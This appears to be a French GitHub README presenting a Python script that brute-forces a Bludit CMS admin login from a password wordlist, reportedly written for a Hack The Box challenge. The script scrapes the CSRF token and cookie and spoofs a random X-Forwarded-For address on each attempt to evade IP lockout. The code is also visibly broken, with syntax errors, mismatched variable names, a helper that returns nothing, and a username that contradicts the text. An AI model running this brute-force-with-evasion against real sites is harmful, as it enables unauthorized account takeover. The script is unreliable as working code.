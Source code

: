 # Contexte

- Programme python essayant de bruteforcer une page de login à l'aide d'un dictionnaire.txt
- Utilisation d'une regex pour pouvoir récupérer un champs dans l'initialisation de session
- Utilisation de random pour pouvoir générer une nouvelle adresse IP sur un champs 'X-Forwarded-for' pour éviter de se faire ban ip suite au bruteforce
- Utilisation d'un dictionnairep pour renseigner les différent mdp à utiliser (on connais déjà l'user qui est fergus)
- Redirection des requêtes vers un proxy local pour analyser les requêtes et la façon dont elles sont construites = Vérifier qu'elles correspondent bien à des requêtes légitimes et compréhensibles pour le site en question.

Je me suis notamment aidé de ce script pour résoudre le **challenge Web** _"embdee five for life"_ de la plateforme Hack The Box.

# Script 

```py
import requests
import re
import random

HOST = '192.168.0.1'
USER = 'admin'
PROXY = {'http://127.0.0.1:8080'}

def init_session():
    # Return CSFR + Session Cookie
    r = requests.get('http://{HOST}}/admin') # On récupère la page /admin dans la variable "r"
    # On recherche la ligne contenant le champ qui nous intéresse dans la réponse "r" à l'aide d'une regex
    csfr = re.search(r'input type=hidden id="jstokenCSFR" name="tokenCSFR" value="([a-z0-9]*)"', r.text)
    csfr = csfr.group(1) # Sélection le champ dans la regex 
    # DEBUG CSRF : Return csrf + print (init_sesion()) pour débug
    cookie = r.cookies.get('BLUDIT-KEY')


def login(user,password):
    csrf,cookie=init_sesion()
    data = {
            'tokenCSFR':csfr,
            'username':user,
            'password':password,
            'save': }
    cookies = {
        'BLUDIT-KEY' = cookie
    }
    header = {
        'X-Forwarded-For' : f"{random.randint(1,256)}.{random.randint(1,256)}.{random.randint(1,256)}.{random.randint(1,256)}"
    }        
    p = requests.post('http://{HOST}}/admin/login', data=data, cookies=cookie, headers = header, proxies=PROXY, allow_redirects:False ) # On regarde les champs à renseigner grâce à BurpSuite en analysant la requête POST 
# On fait attention à l'adresse du POST et à tout les autres champs
    
    if p.status_code != 200:
        print(f"{USER}:{password}")
        return True
    elif "password incorrect" in p.text:
        return False
    elif "has been blocked" in p.text:
        print("IP BLOCKED")
        return False
    else:
        print (f"{USER}:{password}")



wordlist = open('dictionnaire.txt').readlines()
for line in wordlist:
        line=line.strip()
        login(USER,line)
        #print(line)
```

